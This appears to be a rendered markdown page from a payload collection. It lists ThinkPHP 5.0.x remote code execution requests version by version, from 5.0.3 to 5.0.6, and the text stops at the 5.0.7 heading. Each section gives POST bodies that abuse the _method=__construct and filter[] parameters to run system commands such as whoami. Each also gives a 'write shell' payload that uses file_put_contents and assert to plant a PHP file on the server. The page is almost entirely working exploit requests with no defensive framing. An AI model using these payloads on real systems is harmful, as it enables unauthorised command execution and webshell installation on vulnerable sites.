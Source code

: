 ```
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
### 5.0.3
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
### 5.0.4
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
### 5.0.5
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
### 5.0.6
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
### 5.0.7